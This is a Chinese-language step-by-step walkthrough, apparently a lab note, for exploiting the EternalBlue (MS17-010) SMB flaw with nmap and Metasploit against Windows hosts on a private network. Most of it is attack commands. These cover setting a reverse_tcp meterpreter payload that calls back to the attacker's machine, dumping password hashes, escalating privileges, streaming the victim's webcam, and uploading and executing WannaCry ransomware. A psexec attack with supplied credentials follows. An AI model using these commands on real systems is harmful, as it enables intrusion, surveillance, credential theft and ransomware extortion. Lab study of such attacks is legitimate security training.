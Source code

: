 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010` 定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` \
进入msf> \
`version` \
确保MS \
架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
漏洞模块路径查询，搜索到了 4 个相关的插件： \
`auxiliary/admin/smb/ms17_010_command` \
`auxiliary/scanner/smb/smb_ms17_010` \
`exploit/windows/smb/ms17_010_eternalblue` \
`exploit/windows/smb/ms17_010_psexec` \
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue`   /调用攻击模块 \
`options` \
查看参数,并设置： \
`set RHOST 192.168.43.2` \
设定攻击目标  \
`show payloads` \
查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` \
配置攻击载荷  \
`set LHOST 192.168.43.1` \
设置操作机地址,即kali本机地址 \
`exploit` \
发起攻击,也可以用`run`。出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` \
查看系统信息 \
`webcam_list` \
看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
`route` \
查看路由表 \
`screenshot` \
桌面截图，很卡 \
`shell` \
打开命令行，然后可以ipconfig/whoami/net user \
`ps` \
看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` \
查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` \
32位机的账号 \
`set SMBPass 0` \
32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
